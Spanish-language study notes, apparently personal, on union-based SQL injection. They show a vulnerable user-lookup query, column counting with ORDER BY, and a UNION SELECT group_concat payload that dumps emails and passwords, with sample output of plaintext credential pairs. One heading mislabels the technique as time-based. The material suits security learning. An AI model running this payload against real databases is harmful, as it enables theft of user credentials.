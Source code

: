- # Inyección SQL basada en uniones:
### Este tipo de **SQLI** utiliza la cláusila "**UNION**" para combinar dos o más consultas en una sola. Por ejemplo, si se utiliza una consulta que devuelve información sobre los usuarios y se agrega una cláusula "**UNION**" con otra consulta que devuelve información sobre los permisos, se puede obtener información adicional sobre los permisos de los usuarios. 

### Es importante tener en cuenta que para esta **SQLI** funcione, hace falta saber las columnas que esta siendo seleccionadas para asi poder unir datos, esto se da por entendido en ya que se toca en [[SQL]]. 

#### Original QUERY: 
```sql 
SELECT username FROM users WHERE user_id='%d'
```

#### SQLI basa en tiempo: 
```sql
-- Supongamos que realizamos la prubea de ingresar el usuario 1 y devuelve 200 OK ASI COMO TAMBIEN ALGUN DATO EN PANTALLA DEL USUARIO 
SELECT username, password FROM users WHERE user_id=1 
-- Ahora jugamos con order by para averiguar cuantas columnas se estan trayendo
SELECT username FROM users WHERE user_id=1241 order by 2
-- Una vez tengamos el número exacto de columnas podriamos insertar valores que nos interezaran para ver si alguno de los campos es vulnerable y se muestra en pantalla

-- Por ejemplo, desde mysql interactivo si traemos los datos con la primera query veriamos: 
--+---------+-------------------------------+
--| name    | password                      |
--+---------+-------------------------------+
--| Dobliuw | U2!+BF!.hZy1ST4r1&6*&3Uu1&3mI |
--+---------+-------------------------------+

-- Luego ejecutariamos la query maliciosa:
SELECT usrename, password FROM users WHERE user_id=1 union select group_concat(email,0x3a,password),null from users; 
-- Puediendo ver algo similar a esto: 
-------------------------------------------------------------------------------+-------------------------------+
--| name                                                                                                                                                                                                                                                                      --| password                      |
--+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+-------------------------------+
--| Dobliuw                                                                                                                                                                                                                                                                   --| U2!+BF!.hZy1ST4r1&6*&3Uu1&3mI |
--| dobliuw@dobliuw.com:U2!+BF!.hZy1ST4r1&6*&3Uu1&3mI,zaikoarg@zaikoarg.com:Z41k0+!1&dDxD_,valenmachu@gmail.com:1254821158644468,brian@gmail.com:Tomi2008,jose32@gmail.com:jose32,robertoperez@gmail.com:roberto1980,david@gmail.com:mihijoelmejor,testing@gmail.com:test!123 | NULL                          |
--+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+-------------------------------+

```